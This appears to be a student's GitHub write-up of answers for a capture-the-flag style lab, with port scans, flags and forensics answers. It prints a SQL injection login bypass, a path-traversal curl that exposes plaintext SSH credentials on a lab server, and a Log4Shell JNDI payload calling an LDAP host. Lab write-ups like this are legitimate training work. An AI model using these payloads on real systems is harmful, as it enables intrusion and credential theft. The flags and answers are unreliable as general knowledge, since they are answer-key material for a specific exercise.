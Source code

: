 # CS-SA10-25004-felix-
1 22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
<img width="1920" height="1080" alt="Screenshot_2025-08-09_11_12_47" src="https://github.com/user-attachments/assets/0f98c4c7-4a0e-4d65-a02c-e71f4cfa997f" />
2  Apache/2.4.58 (Ubuntu)
<img width="1920" height="1080" alt="Screenshot_2025-08-09_11_16_19" src="https://github.com/user-attachments/assets/507cdaf0-8838-4d97-818e-07d9adfa5d84" />
3 Welcome, ' OR '1'='1' # Logout
<img width="1920" height="1080" alt="Screenshot_2025-08-09_11_34_23" src="https://github.com/user-attachments/assets/64a4f1c8-9fc8-43a5-b1db-7982224f9fc0" />
4  Default Note: I think I made a mistake and now we have something hackers call LFI, I'll fix it later. Ooh and I need to modify the configuration.conf file. FLAG: cske_sa{default_note_flag_sa_c2_25_final}
<img width="1920" height="1080" alt="Screenshot_2025-08-09_11_37_44" src="https://github.com/user-attachments/assets/8df0711c-f2ee-41f5-8c94-b1813cbb98b5" />
5FLAG: cske_sa{default_note_flag_sa_c2_25_final}
6 LFI
7http://54.146.36.31/notes/view.php?title=default_note.txt
<img width="1920" height="1080" alt="Screenshot_2025-08-09_11_43_49" src="https://github.com/user-attachments/assets/11443403-0976-4e79-bfaf-5ff8778038d9" />
8 ┌──(hollyspirit㉿kali)-[~]
└─$ curl "http://54.146.36.31/notes/view.php?title=../configuration.conf"
ssh_user=cskeuser
ssh_pass=OvxioupwJ4RfFxSW
FLAG=cske_sa{configuration_file_flag_sa_c2_25_final}

<img width="1920" height="1080" alt="Screenshot_2025-08-09_11_47_48" src="https://github.com/user-attachments/assets/7fc76979-7159-4aa0-8227-47606941a025" />
9ssh_user=cskeuser
ssh_pass=OvxioupwJ4RfFxSW
10  <img width="1920" height="1080" alt="Screenshot_2025-08-09_11_52_00" src="https://github.com/user-attachments/assets/7223dbaf-3317-4faa-a17b-97d09859fab0" />
11 cske_sa{hidden_flag!?_sa_c2_25_final}
 <img width="1920" height="1080" alt="Screenshot_2025-08-09_11_53_56" src="https://github.com/user-attachments/assets/98ef119e-60c7-4840-8006-39b333f641e6" />
12ubuntu (UID 1000)

cskeuser (UID 1001)

user1 (UID 1002)

user2 (UID 1003)

user3 (UID 1004)
<img width="1920" height="1080" alt="Screenshot_2025-08-09_11_55_39" src="https://github.com/user-attachments/assets/c9ea7e81-fa2d-4c13-88a9-a338bfc2656f" />
13/home/cskeuser  /home/ubuntu  /home/user3
<img width="1920" height="1080" alt="Screenshot_2025-08-09_11_57_18" src="https://github.com/user-attachments/assets/5b0d3e95-0aac-47c4-bb7b-9f924b3272a7" />
14/u<img width="1920" height="1080" alt="Screenshot_2025-08-09_12_00_35" src="https://github.com/user-attachments/assets/741922ef-bec8-4c5a-80fe-aa749d13aa74" />
sr/local/bin/vim
15  

Forensics Questions (30 marks)
1 426 packets
2 4 <img width="1920" height="1080" alt="Screenshot_2025-08-09_12_18_14" src="https://github.com/user-attachments/assets/f691e9b7-d875-4b9f-ab00-c498a7d089ce" />
3 10.10.10.31
172.16.238.1
172.16.238.10
172.16.238.11
4  version 4 
<img width="1920" height="1080" alt="Screenshot_2025-08-09_12_22_43" src="https://github.com/user-attachments/assets/d43906e0-b8ee-443a-a533-3239bce02fa8" />
5uname=${jndi:ldap://172.16.238.11:1389/a}
uname=${jndi:ldap://172.16.238.11:1389/a}
<img width="1920" height="1080" alt="Screenshot_2025-08-09_12_29_04" src="https://github.com/user-attachments/assets/d04ce7d6-019b-49a9-8b30-867ff4f02b51" />